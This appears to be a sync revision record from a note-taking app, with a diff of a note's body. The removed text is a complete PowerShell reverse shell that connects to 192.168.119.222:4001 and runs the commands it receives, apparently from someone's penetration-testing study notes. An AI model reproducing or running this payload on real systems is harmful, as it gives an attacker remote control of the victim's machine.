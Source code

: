 id: 8c8f7bce77b149d5bebf3f8a6c2f6882
parent_id: 1bc865a5905f42cd86e91695fa5ec99c
item_type: 1
item_id: 1a72f4e7464d467d810fc01a3adf9ed0
item_updated_time: 1650557493800
title_diff: "[]"
body_diff: "[{\"diffs\":[[0,\"ters\"],[-1,\"\\\n\\\npowershell -nop -c \\\"$client = New-Object System.Net.Sockets.TCPClient('192.168.119.222',4001); $stream = $client.GetStream(); \\\\[byte\\\\[\\\\]\\\\]$bytes = 0..65535|%{0}; while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) { $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i); $sendback = (iex $data 2>&1 | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = (\\\\[text.encoding\\\\]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length); $stream.Flush()};$client.Close()\\\"\"]],\"start1\":1450,\"start2\":1450,\"length1\":544,\"length2\":4}]"
metadata_diff: {"new":{},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-04-21T16:13:31.445Z
created_time: 2022-04-21T16:13:31.445Z
type_: 13